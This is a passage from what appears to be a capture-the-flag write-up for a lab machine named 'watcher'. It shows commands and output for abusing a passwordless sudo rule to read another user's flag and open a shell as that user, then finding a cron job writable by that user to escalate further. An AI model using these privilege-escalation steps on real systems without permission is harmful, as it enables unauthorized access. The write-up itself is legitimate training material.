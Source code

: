 After retrieving the last flag that www-data had access to, I began escalating my privileges: 

## Privilege Escalation toby

I continued by executing `sudo -l`, which returned the following output:
```bash
www-data@watcher:/$ sudo -l
Matching Defaults entries for www-data on watcher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL
```

The user www-data had all permissions for the user toby when using sudo. I used this to retrieve the next flag and to switch to user toby:
```bash
www-data@watcher:/$ sudo -u toby cat /home/toby/flag_4.txt 
  FLAG{c[removed]e} 

www-data@watcher:/$ sudo -u toby bash
toby@watcher:/$ id
  uid=1003(toby) gid=1003(toby) groups=1003(toby)
```

While enumerating Toby's home directory, I found an interesting note from Mat:
```bash
toby@watcher:~$ cat note.txt 
  Hi Toby,

  I've got the cron jobs set up now so don't worry about getting that done.

  Mat
```

## Privilege Escalation mat

Because of the note, I continued with the cron entries and received the following output:
```bash
toby@watcher:~/jobs$ cat /etc/crontab 
  [...]
  # m h dom mon dow user  command
  17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
  25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
  47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
  52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
  #
  */1 * * * * mat /home/toby/jobs/cow.sh
```
